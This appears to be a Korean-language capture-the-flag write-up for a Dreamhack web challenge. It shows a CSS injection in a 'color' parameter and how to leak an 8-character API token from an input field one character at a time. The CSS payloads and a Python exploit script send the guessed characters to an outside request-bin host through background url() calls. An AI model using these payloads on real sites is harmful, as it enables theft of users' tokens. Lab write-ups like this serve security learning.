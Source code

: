 ```
http://host3.dreamhack.games:12126/memo?color=yellow;%20font-size:%20100px;
```
이렇게 `color=yellow;` 다음에 font-size를 건드려보니 실제로 적용되는 것이 확인됐다.<br />
이로써 우리는 CSS injection 취약점이 발생한다는 것을 확신할 수 있다.<br />
### CSS Injection으로 값 읽어오기
값을 읽어오기 이전에 우선 어떠한 값을 읽어야하는지 확정해야한다.<br />
원래는 /report 페이지를 통해서 /memo 페이지에 CSS 코드를 보내서 플래그 값을 읽으려했지만 딱히 방법이 없었다.<br /> memo가 모두 div 태그로 작성돼있기 때문이다.<br />

CSS Injection으로는 "input" 값을 읽어올 수 있는 방법이 존재한다. <br />
아무 아이디로 로그인 후 /mypage에 들어가보면 만 아래에 해당 아이디의 API Token가 적혀있는데 해당 값은 input으로 적혀있기 때문에 CSS로 값을 읽을 수 있다.
#### 테스트
```css
/mypage?color=yellow;} input[id=InputApitoken][value^=a] {background: url(https://rlmheje.request.dreamhack.games?data=a)
```
페이로드를 이런식으로 작성해서 /mypage의 API 토큰 값을 하나씩 읽어낼 수 있다. `[value^=a]` 부분의 'a'를 계속 바꿔가면서 화면을 확인해보면 올바른 값이 입력됐을 때 해당 인풋 박스의 색깔이 변하는 것을 확인할 수 있다.<br />
예를 들어 API 토큰 값이 "abcdefgh"라고 가정한다면 `[value^=a]`를 입력했을 때 색이 변하고 `[value^=ab]`를 입력했을 때 색이 변한다. 이런식으로 색이 변하는 한 글자를 총 8번 반복하여 최종 토큰을 알아내면 된다.
#### API 토큰의 길이
```python
def token_generate():
    while True:
        token = "".join(random.choice(string.ascii_lowercase) for _ in range(8))
        token_exists = execute(
            "SELECT * FROM users WHERE token = :token;", {"token": token}
        )
        if not token_exists:
            return token
```
main.py를 다시 보면 토큰을 생성하는 함수가 있다. <br />
토큰은 알파벳 소문자로만 이루어져있고 총 8자리이다.
#### 익스플로잇 코드
```python
import requests
import string 

url = "http://host3.dreamhack.games:15984/report"
ping_back_url = "https://qfqwunp.request.dreamhack.games?data="

alphabets = string.ascii_lowercase

for letter in alphabets:
    token = "" + letter
    path = f"/mypage?color=white;"+ "}" + f"input[id=InputApitoken][value^={token}]" +  "{" + f"background: url({ping_back_url}{token})" + "}"
    print(token)
```
익스플로잇은 위와 같다.<br />
